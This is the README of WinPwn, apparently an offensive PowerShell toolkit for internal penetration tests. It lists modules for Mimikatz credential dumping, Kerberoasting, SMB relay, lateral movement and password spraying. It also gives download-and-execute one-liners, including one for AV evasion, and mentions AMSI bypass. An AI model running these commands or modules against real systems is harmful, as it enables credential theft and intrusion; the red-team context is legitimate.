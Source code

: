 # WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I often ran the same scripts one after the other to get information about the current system and/or the domain. To automate this process and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions. Maybe someday a C# Version will follow.

Any suggestions, feedback and comments are welcome!

Just Import the Modules with:
`Import-Module .\WinPwn_v0.7.ps1` or 
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.7.ps1')`

For AV-Evasion use:
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/ObfusWinPwn.ps1')`

Functions available after Import:
* #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.
* #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
* #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
* #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz
* #### `localreconmodules` -> Collects infosec relevant system Information, Executes passhunt, Get-Computerdetails and Just another Windows Privilege escalation script + Winspect
* #### `JAWS` -> Just another Windows Privilege Escalation script
* #### `domainreconmodules` -> 
  * Powerview function output gets stored on disk for review. 
  * A search for AD-Passwords in description fields is done. 
  * Unconstrained delegation systems/users are enumerated. 
  * SQL Server discovery and Auditing functions (default credentials, passwords in the database and more).
  * MS-RPRN Check for Domaincontrollers
  * An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
* #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords)
* #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) 
* #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. DomainPassword-Spray for new Credentials can also be used here.
* #### `empirelauncher` -> Launch powershell empire oneliner on remote Systems
* #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
* #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
* #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
* #### `powerSQL` -> SQL Server discovery, Check access with current user, Audit for default credentials + UNCPath Injection Attacks
* #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
* #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering.


The submodule is a forked and edited version of https://github.com/Cn33liz/p0wnedShell. You can compile it yourself and use it for powershell restriction bypass and AMSI-Bypass. Most AV-Solutions can be evaded this way. Just run the executable File, choose 17. and execute WinPwn.

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/p0wnedmenu.PNG)

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/p0wned.png)

## TO-DO
- [x] Some obfuskation
- [ ] More obfuscation
- [ ] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories
- [ ] More Recon/Exploitation functions
- [ ] msDS-AllowedToActOnBehalfOfOtherIdentity Ressource based constrained delegation

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/) - SessionGopher
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo
- [X] [HarmJ0y](https://github.com/HarmJ0y) - Many good Blogposts, Gists and Scripts
- [X] [NETSPI](https://github.com/NetSPI/) - PowerUpSQL
- [X] [Cn33liz](https://github.com/Cn33liz/) - p0wnedShell

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
